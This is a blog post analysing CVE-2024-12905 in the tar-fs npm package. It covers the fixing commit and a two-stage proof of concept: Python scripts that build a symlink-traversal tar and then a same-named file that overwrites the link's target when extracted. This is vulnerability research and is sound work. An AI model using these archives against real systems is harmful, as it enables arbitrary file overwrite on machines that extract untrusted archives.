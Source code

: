 ```yaml
---
title: CVE-2024-12905 - tar-fs Vulnerability Ananlysis and PoC
date: 2025-04-18 09:00:00 +0800
categories: [Vulnerability Research, Exploit Development]
tags: [arbitrary file write, file overwrite, link following]
math: true
mermaid: true
media_subpath: /assets/posts/2025-04-18-tarFs-PoC
image:
  path: preview.png
---
```


# Vulnerability anaylsis and PoC Development for CVE-2024-12905

## Introduction     
The `tar-fs` npm package is commonly used in JavaScript projects to pack and extract `.tar` archive files. However, a critical vulnerability ([CVE-2024-12905](https://github.com/advisories/GHSA-pq67-2wwv-3xjx)) affects several versions of this package — specifically:

- Versions from 0.0.0 before 1.16.4

- Versions from 2.0.0 before 2.1.2

- Versions from 3.0.0 before 3.0.7

This vulnerability allows attackers to craft malicious `.tar` archives that can write or overwrite files outside the intended extraction directory, potentially leading to arbitrary file write attacks. This kind of flaw poses a serious risk, especially in environments that automatically extract user-provided archives.

In this blog, we’ll dive into the `tar-fs` source code and analyze the relevant Git commits before and after the patch to understand how the vulnerability works. We'll also walk through the process of crafting a proof-of-concept (PoC) exploit to demonstrate its impact.

## Vulnerability Analysis
While researching recently published vulnerabilities for a new vulnerable machine concept, I came across **CVE-2024-12905**. The description immediately piqued my interest, and I was eager to replicate the vulnerability. However, I quickly realized that no public exploit code existed for it.

Determined to explore further, I decided to dive into the patch diffs myself to uncover exactly where the vulnerability was introduced—and more importantly, how it was fixed—so I could develop a working proof of concept (PoC).

Fortunately, the researchers who discovered the vulnerability referenced a specific commit hash in the `tar-fs` repository where the issue was addressed: [mafintosh/tar-fs@a1dd7e7](https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed).

Upon reviewing this commit, I noticed a number of key additions to the code that appeared to patch the underlying issue. 

First, on line `123`, a new line was introduced to retrieve the absolute path of the current working directory. This serves as a baseline for validating file paths during extraction.

Then, on lines `221` to `223`, an important security check was added. This logic ensures that when unpacking archives, symbolic links are verified to confirm they **do not** point to locations outside the current working directory.

As shown in *Figure 1*, new lines were added to perform these validation checks. This includes a call to the `inCwd()` function, which is responsible for ensuring that resolved paths stay within the current working directory.

The actual implementation of `inCwd()` can be seen in *Figure 2*.

![Additions to the code](github_commit_and_additions.png)  
*Figure 1: Key Code Additions*

![inCwd Code Addition](inCWD_code_addition.png)  
*Figure 2: Implementation of `inCwd()`*


From these observations, we can begin to pinpoint the core of the vulnerability. In the affected versions of `tar-fs`, it is possible to unpack `.tar` archives containing symbolic links that point **outside** the current working directory. This oversight could allow attackers to write or overwrite arbitrary files on the system by leveraging specially crafted archive contents.


## Exploit Development
After identifying the vulnerability i moved on to crafting an exploit to prove ths concept. From the vulnerabilty i came to understand that we could submit archives with symbolic links and the affected version of `tar-fs` would happily unpack it. The exploitation doesn't end here as there are two stages involved in successfully obtaining a file write/overwrite.

### Stage 1: Creating a tar archive with a symbolic link embedded
In this stage, we use Python to craft a `.tar` archive that contains a symbolic link. This symbolic link is configured to point to a specific target file on the system that we intend to overwrite during extraction. 

```python
import tarfile
import os

archive_name = 'stage_1.tar'
link_name = 'normal_file' 
symlink_target = '../../../../../../../../../home/mcsam/poc' # Replace with traversed path to the file you want to overwrite

# Create symbolic link
os.symlink(symlink_target, link_name)

# Archive the symbolic link
tar = tarfile.open(archive_name, 'w')
tar.add(link_name, recursive=False)
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_1.tar 
lrwxrwxrwx mcsam/mcsam       0 2025-04-18 15:06 normal_file -> ../../../../../../../../../home/mcsam/poc
```

When `stage_1.tar` is unpacked on the target system, the symbolic link `normal_file` will be dropped in the extraction directory. This sets up the environment for the next stage, where this symlink could potentially be used to overwrite the target file it points to.

### Stage 2: Creating stage_2 tar archive 
In this stage, we create another TAR archive named `stage_2.tar`. This archive contains a regular file with the same name as the symbolic link we created in Stage 1 (e.g., `normal_file`).

The contents of this new file represent the data we intend to write into the target file on the victim system — the one the symbolic link points to.

This can also be achieved using Python.
```python
import tarfile

path_to_file_to_archive = 'poc' 
archive_name = 'stage_2.tar'

tar = tarfile.open(archive_name, 'w')
tar.add(path_to_file_to_archive, 'normal_file') # normal_file: same name as the symbolic link
tar.close()
```

#### Expected Structure of the stage_1.tar File
When the archive is inspected using `tar -tvf`, it should look like this:
```
mcsam@0x32:~/tarfs-PoC$ tar -tvf stage_2.tar 
-rw-rw-r-- mcsam/mcsam      19 2025-04-18 15:16 normal_file
```

#### What Happens When stage_2.tar is Unpacked
When `stage_2.tar` is unpacked by the vulnerable `tar-fs` application, it attempts to write the file `normal_file` to the file system.

However, recall that a symbolic link named `normal_file` already exists on the target (created during Stage 1). As a result, when `tar-fs` tries to write to `normal_file` in its current working directory, it will **follow the symlink** and end up overwriting the actual file it points to: `../../../../../../../../../home/mcsam/poc.`

This allows us to effectively overwrite an arbitrary file on the target system, provided the process has the necessary write permissions to that file.

## Verifying/Testing The Exploit
First, we set up our environment using `npm` and install a vulnerable version of `tar-fs`:

```bash
npm install tar-fs@3.0.0
```

#### Extracing Stage 1
Next, we create a simple test script named `test.js` that uses tar-fs to extract a tar archive:
```javascript
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_1.tar
fs.createReadStream('stage_1.tar').pipe(tar.extract('./output'))
```

Run the script with:
```bash
node test.js
```

#### Extracting stage 2
Now, we update the script to extract `stage_2.tar` instead:
```
const tar = require('tar-fs')
const fs = require('fs')

// Extract stage_2.tar
fs.createReadStream('stage_2.tar').pipe(tar.extract('./output'))
```
Run the script again and voilà — the path traversal takes effect.   
`/home/mcsam/poc` gets overwritten.

### References
- https://github.com/advisories/GHSA-pq67-2wwv-3xjx
- https://github.com/mafintosh/tar-fs/commit/a1dd7e7c7f4b4a8bd2ab60f513baca573b44e2ed